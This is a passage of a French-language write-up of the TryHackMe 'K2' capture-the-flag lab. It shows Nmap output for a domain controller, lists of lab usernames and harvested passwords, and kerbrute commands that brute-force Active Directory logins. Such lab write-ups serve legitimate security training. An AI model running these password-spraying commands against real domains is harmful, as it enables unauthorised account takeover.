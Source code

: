 ```shell
|_  System_Time: 2024-10-16T21:57:30+00:00
|_ssl-date: 2024-10-16T21:58:09+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=K2RootDC.k2.thm
| Not valid before: 2024-10-15T21:52:04
|_Not valid after:  2025-04-16T21:52:04
Service Info: Host: K2ROOTDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-10-16T21:57:33
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 77.09 seconds
```

La dernière machine est un autre contrôleur de domaine avec le nom `K2RootDC.k2.thm`.

## What is the user flag?

### Enumération

Nous mettons à jour nos listes avant de commencer à énumérer Active Directory.

**Noms d'utilisateur AD possibles**

```
j.bold
j.smith
r.bud
administrator
```

**Mots de passe trouvés**

```
Pwd@9tLNrC3!
RdzQ7MSKt)fNaz3!
vRMkaVgdfxhW!8
#8rockyou
vz0q$i8b4c
```
Utilisons`Kerbrute` pour trouver les noms d'utilisateurs valides.

![K2-The Summit AD enumeration](/images/THM-K2/valid_users_k2S.png)

Une fois de plus, nous comparons nos mots de passe aux utilisateurs valides.

```
kerbrute bruteuser --dc K2RootDC.k2.thm -d k2.thm potential_pwds.txt j.smith

kerbrute bruteuser --dc K2RootDC.k2.thm -d k2.thm potential_pwds.txt administrator
```
